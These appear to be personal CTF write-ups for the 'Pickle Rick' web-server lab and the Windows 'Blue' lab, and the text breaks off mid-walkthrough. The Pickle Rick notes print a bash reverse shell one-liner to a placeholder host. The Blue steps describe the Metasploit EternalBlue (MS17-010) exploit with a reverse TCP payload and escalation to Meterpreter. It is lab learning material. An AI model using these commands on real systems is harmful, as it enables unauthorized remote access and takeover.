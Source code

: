 # Pickle Rick CTF
In this CTF we have to exploit a web server to find three flags.
**Walkthrough**
1. We scan the webserver using NMap, [dirb](https://www.kali.org/tools/dirb/), [nikto](https://github.com/sullo/nikto/wiki) and [Zap proxy](https://www.zaproxy.org/docs/)
2. We discover that the ports 22 and 80 are open and the file `/robots.txt`, containing the phrase "Wabbalubbadubdub"
3. We visit the web page, look at the source code and find the username "R1ckRul3s" 
4. Navigating to the login we enter the username and the phrase and get a command panel as the user "www-data"
5. With the command `sudo -l` we find out that we have root access
6. We enter `ls -la` and see a file called "Sup3rS3cretPickl3Ingred.txt" 
7. We open it with `less Sup3rS3cretPickl3Ingred.txt` and get the first flag
8. We look around the file system first `/home` and then further
9. We find the second ingredient at `/home/rick/second ingredients`
10. Because we have root access we can also look at `/root` where we find the third flag at `/root/3rd.txt`

**Notes**
- We can also access the flags via the URL, f.e. `192.168.1.101/Sup3rS3cretPickl3Ingred.txt`
- It is also possible to open a bash reverse shell but only encapsulated in a bash - c
```
bash -c `bash -1 >& /dev/tcp/x.x.x.x/8080 0>&1`
```

# Blue
In this CTF we exploit a Windows machine, using common misconfigurations.
1. We perform a Nmap scan and discover 8 open ports, including:
	- 135: msrpc
	- 139: netbios-ssn
	- 445: microsoft-ds
	- 3389: ms-wbt-server
2. We scan the target for vulnerabilities:
	- `auxiliary/scanner/smb/smb_ms17_010` reveals that the target is vuonerable to the `ms17_010` exploit
3. We use the `exploit/windows/smb/ms17_010_eternalblue` exploit, set the payload to `windows/x64/shell/reverse_tcp`
4. Once we have a reverse shell, we convert it to a *Meterpreter* shell:
	1. Background the current session (CTRL+Z or type "background")
	2. Use the `post/multi/manage/shell_to_meterpreter` module, set the parameter and run it
	3. Switch to the new *Meterpreter* session with `sessions -i 2`
5. We confirm that we run as "NT AUTHORITY/SYSTEM" by using the command `getsystem`
6. We use `ps` to list all running processes, choose one that runs as "NT AUTOTITY/SYSTEM" and note its "PID"